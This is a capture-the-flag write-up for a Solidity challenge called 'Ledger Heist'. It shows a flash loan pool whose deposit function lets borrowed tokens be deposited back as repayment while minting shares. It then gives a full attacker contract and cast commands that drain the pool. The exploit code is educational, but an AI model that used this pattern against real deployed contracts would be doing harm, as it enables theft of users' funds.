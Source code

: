 ```yaml
---
showFullContent: false
readingTime: true
---
```


## Ledger Heist

## code / Description
```solidity
function deposit(uint256 amount) external {
    address _msgsender = msg.sender;

    _updateFees(_msgsender);
    IERC20Minimal(underlying).transferFrom(_msgsender, address(this), amount);

    _mint(_msgsender, amount);
}
```

```solidity
function flashLoan(IERC3156FlashBorrower receiver, address token, uint256 amount, bytes calldata data)
    external
    returns (bool)
{
    if (token != underlying) {
        revert NotSupported(token);
    }

    IERC20Minimal _token = IERC20Minimal(underlying);
    uint256 _balanceBefore = _token.balanceOf(address(this));

    if (amount > _balanceBefore) {
        revert InsufficientBalance();
    }

    uint256 _fee = _computeFee(amount);
    _token.transfer(address(receiver), amount);

    if (
        receiver.onFlashLoan(msg.sender, underlying, amount, _fee, data)
            != keccak256("ERC3156FlashBorrower.onFlashLoan")
    ) {
        revert CallbackFailed();
    }

    uint256 _balanceAfter = _token.balanceOf(address(this));
    if (_balanceAfter < _balanceBefore + _fee) {
        revert LoanNotRepaid();
    }

    // Accumulate fees and update feePerShare
    uint256 interest = _balanceAfter - _balanceBefore;
    feePerShare += interest.fixedDivFloor(totalSupply, BONE);

    emit FlashLoanSuccessful(address(receiver), msg.sender, token, amount, _fee);
    return true;
}
```



## Challenge Analysis

This challenge revolves around a smart contract that implements a flash loan feature, which allows borrowing assets with the obligation of returning them within the same transaction. The vulnerability arises from improper handling of the loan repayment mechanism. The contract permits the depositing of flash-loaned assets directly back into the pool without proper validation of the repayment source or completion status. This flaw, combined with a faulty deposit function, results in the minting of tokens to the sender and improperly assigns credit, which the sender can later withdraw, leading to the potential draining of ETH from the contract.


## Solution

1. Deploy Attacker Contract: First, deploy an attacker contract implementing IERC3156FlashBorrower. In the constructor of this contract, set the target flash loan pool, approve the flash loan amount, and prepare for receiving the loan by setting the maximum loan amount and ensuring the contract can handle the token involved.

```solidity
contract BadBorrower is IERC3156FlashBorrower {
    address target;
    uint maxloan;
    address underlying;

    constructor(address _target) {
        target = _target;
        underlying = ILoanPool(_target).underlying(); 
        maxloan = ILoanPool(_target).maxFlashLoan(underlying);

        try IToken(underlying).approve(_target, type(uint256).max) {} catch {
            revert("cant add LoanPool to attacker allowancea");
        }
    }

    function onFlashLoan(
        address initiator,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata data
    ) public returns (bytes32) {
        ILoanPool(msg.sender).deposit(amount);
        IToken(token).transferFrom(tx.origin, msg.sender, fee);
        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }

    function withdraw() public {
        try ILoanPool(target).withdraw(maxloan) {
        } catch {
            revert("cant withdraw!");   
        }
    }
}
```



2. Approve Attacker Contract: Next, approve the attacker contract to transfer the required token amount to the flash loan contract to cover the flash loan fee. This is necessary to meet the requirements of the flash loan mechanism, specifically for repayment.

```bash
cast send <UNDERLYING_TOKEN_ADDRESS> "approve(address,uint256)" <TARGET_CONTRACT_ADDRESS> 9999999999999999999999 --rpc-url <RPC_URL> --private-key <PRIVATE_KEY>
```


3. Initiate Flash Loan: Trigger a flash loan from the attacker contract. The onFlashLoan function within this contract is designed to misuse the deposit mechanism: it deposits the flash-loaned amount back into the loan pool, exploiting the flawed logic to mint new tokens or credit to the attacker contract.

```bash
cast send <TARGET_CONTRACT_ADDRESS> "flashLoan(IERC3156FlashBorrower,address,uint256,bytes)" <ATTACKER_CONTRACT_ADDRESS> <UNDERLYING_TOKEN_ADDRESS> 10000000000000000000 0x --rpc-url <RPC_URL> --private-key <PRIVATE_KEY>
```


4. Handle Loan and Fee in onFlashLoan: Within the onFlashLoan execution context the borrowed tokens are deposited back into the pool using the deposit function. This action satisfies the loan's return requirements while simultaneously credits the sender and mints additional tokens, effectively leveraging the return of the loaned tokens. Subsequently, the loan fee is paid from the external owner's account (EOA). This step ensures that the flash loan requirements are met.

```solidity
ILoanPool(msg.sender).deposit(amount);
IToken(token).transferFrom(tx.origin, msg.sender, fee);
```


5. Withdraw Assets: Finally, call the withdraw function on the attacker contract, which, in turn, calls the withdraw function on the flash loan contract. Since the attacker contract's balance has been artificially inflated through the earlier deposit, this step allows withdrawing more assets than should be possible, effectively draining ETH from the flash loan contract.

```bash
cast send <ATTACKER_CONTRACT_ADDRESS> "withdraw()" --rpc-url <RPC_URL> --private-key <PRIVATE_KEY>
```

> Authors - [Mohammad Eminem](https://github.com/m-amini-sss)